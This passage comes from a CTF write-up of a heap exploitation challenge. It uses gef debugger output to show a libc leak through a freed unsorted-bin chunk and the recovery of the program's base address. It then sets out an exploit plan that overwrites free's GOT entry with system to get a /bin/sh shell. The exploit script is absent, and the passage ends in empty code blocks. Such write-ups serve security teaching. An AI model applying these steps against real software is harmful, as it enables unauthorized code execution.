 ```
[+] Found 0 chunks in 0 large non-empty bins.
```

The first chunk of the unsorted bin gets a pointer to the `main_arena` in libc, we can find its address:
 
```
gef➤  lookup heap libc
[+] Searching for addresses in 'heap' that point to 'libc'
[heap]: 0x000055f3867ff330│+0x0330: 0x00007fb1cd194ca0  →  0x000055f3867ff880  →  0x0000000000000000
[heap]: 0x000055f3867ff338│+0x0338: 0x00007fb1cd194ca0  →  0x000055f3867ff880  →  0x0000000000000000
gef➤  x/gx 0x00007fb1cd194ca0
0x7fb1cd194ca0 <main_arena+96>:	0x000055f3867ff880
```

`0x55f3867ff330` is the address of the chunk in the unsorted bin, we can leak it by:
* Creating the first player
* Selecting the first player
* Freeing the first player
* Allocating 9 players
* Freeing 9 players
* Print the selected player

In my libc, the offset of the leak is at `0x1bbca0`, which allows us to compute the base address of libc.

### Getting the address of the program

Now that we have the address of libc, we need to find the address of the program to overwrite the GOT.
Fortunately, there are addresses in libc which points to our program:
```
gef➤  lookup libc byot
[+] Searching for addresses in 'libc' that point to 'byot'
libc-2.28.so: 0x00007efff28f6f48│+0x3f48: 0x000055a42578b0a0  →  0x00007efff28f8760  →  0x00000000fbad2887
libc-2.28.so: 0x00007efff28f6fc0│+0x3fc0: 0x000055a42578b0b0  →  0x00007efff28f7a00  →  0x00000000fbad208b
gef➤  x/gx 0x00007efff28f6f48
0x7efff28f6f48:	0x000055a42578b0a0
gef➤  x/gx 0x000055a42578b0a0
0x55a42578b0a0 <stdout>:	0x00007efff28f8760
```

### Overwriting the GOT

Now that we have the address of libc and the program, we can compute the address of system and the GOT of the program. For the exploit, we will:
* Overwrite the GOT address of free with system
* Create a player named `/bin/sh`
* Free that player


``````
``````
``````
``````
``````
``````

